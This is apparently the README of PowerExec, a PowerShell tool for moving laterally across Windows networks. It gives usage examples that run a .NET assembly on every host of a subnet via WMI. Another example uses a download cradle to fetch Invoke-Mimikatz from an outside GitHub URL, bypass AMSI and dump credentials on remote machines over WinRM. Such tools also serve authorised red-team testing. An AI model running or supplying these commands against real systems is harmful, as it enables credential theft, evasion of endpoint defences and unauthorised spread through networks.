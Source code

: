 # PowerExec

PowerExec is a PowerShell tool to move laterally on a Windows network.

## Functions

```
Invoke-PowerExec                -   execute PowerShell script block on remote computers through various techniques
Get-PowerLoader                 -   build script block which safely loads PowerShell or .NET assembly
```

## Examples

Run a .NET assembly through WMI:

```
PS C:\> Get-PowerLoader -Type NetAsm -FilePath .\sample.exe | Invoke-PowerExec -ComputerList 192.168.1.0/24 -Protocol WMI -Thread 10
```

Run a PowerShell script through WinRM using a download cradle:

```
PS C:\> Get-PowerLoader -Type PoSh -FileUrl 'https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1' -ArgumentList 'Invoke-Mimikatz -DumpCreds' -Bypass AMSI | Invoke-PowerExec -ComputerList 192.168.1.1,192.168.1.2 -Protocol WinRM -Thread 2
```
